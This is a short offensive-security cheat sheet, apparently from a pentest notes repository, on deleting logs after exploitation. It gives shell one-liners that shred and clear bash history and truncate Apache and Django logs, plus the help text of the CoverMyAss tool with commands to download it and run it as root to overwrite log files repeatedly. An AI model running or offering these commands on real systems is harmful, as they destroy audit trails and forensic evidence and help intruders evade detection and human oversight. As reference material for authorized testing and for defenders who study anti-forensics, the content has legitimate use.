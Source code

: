 # Delete Logs

Search Tag(s): #post-exploitation #defense-evasion #anti-forensics

## 01 - Unix Shell

### 1.1 - Command History

- Clear history commands

`$ shred -u <wipesync | wipe | unlink> -zxfvn 5 ~/.bash_history && cat /dev/null > ~/.bash_history && history -cw`

`$ cat /dev/null > ~/.bash_history && history -cw`

### 1.2 - HTTP Webserver

`$ sudo echo "" > /var/log/django.log`

`$ sudo echo "" > /var/log/apache2/error_log`

## 02 - CoverMyAss

### 2.1 - Help Menu

```
$ ./covermyass -h
Covermyass is a post-exploitation tool for pen-testers that finds then erases log files on the current machine. The tool scans the filesystem and look for known log files that can be erased. Files are overwritten multiple times with random data, in order to make it harder for even very expensive hardware probing to recover the data. Running this tool with root privileges is safe and even recommended to avoid access permission errors. This tool does not perform any network call.

Usage:
  covermyass [flags]

Examples:

Overwrite log files as well as those found by path /db/*.log
covermyass --write -p /db/*.log

Overwrite log files 5 times with a final overwrite with zeros to hide shredding
covermyass --write -z -n 5


Flags:
  -f, --filter strings   File paths to ignore (supports glob patterns)
  -h, --help             help for covermyass
  -n, --iterations int   Overwrite N times instead of the default (default 3)
  -l, --list             Show files in a simple list format. This will prevent any write operation
      --no-read-only     Exclude read-only files in the list. Must be used with --list
  -v, --version          version for covermyass
      --write            Erase found log files. This WILL shred the files!
  -z, --zero             Add a final overwrite with zeros to hide shredding
```

### 2.2 - Usage

```
$ wget -O covermyass https://github.com/sundowndev/covermyass/releases/latest/download/covermyass_linux_amd64

$ curl -sSL https://github.com/sundowndev/covermyass/releases/latest/download/covermyass_linux_amd64 -o covermyass

$ chmod +x covermyass

$ sudo ./covermyass --write -n 5 -z
```

---
## References

- [CoverMyAss](https://github.com/sundowndev/covermyass/)